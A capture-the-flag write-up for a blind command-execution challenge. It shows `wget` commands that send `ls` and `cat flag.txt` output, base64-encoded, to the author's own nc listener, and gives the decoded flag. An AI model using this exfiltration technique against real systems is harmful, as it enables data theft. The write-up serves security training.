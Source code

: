 
# Blind

## The challenge

I'm totally blind ... or am i?

Connect using nc 13.251.87.147 5002



## Writeup

We do a nc 13.251.87.147 5002.
We find a kind of bash. Testing few command (cat, ls etc...) we got in return a integer (0,1 or 127 in my test).
I did a ping www.google.fr and didn't get an answer fast. That means that the cmd are really executed.
So I opened a terminal on my computer:
    ```bash
    nc -l 8080and do a 
    ```
and on the challenge :
```bash
    wget http://X.X.X.X:8080?$(ls | base64)
```

we can capture on our terminal the request with the result of the ls command. There is a file flag.txt.
so, I did wget http://93.8.152.202:8080?$(cat flag.txt)

we got : YXhhY3RmezN4MXRfYzBkM180cjNfdmVyeV9wMHczcmZ1bGxfN2gxbmc1fQo=
so axactf{3x1t_c0d3_4r3_very_p0w3rfull_7h1ng5}.



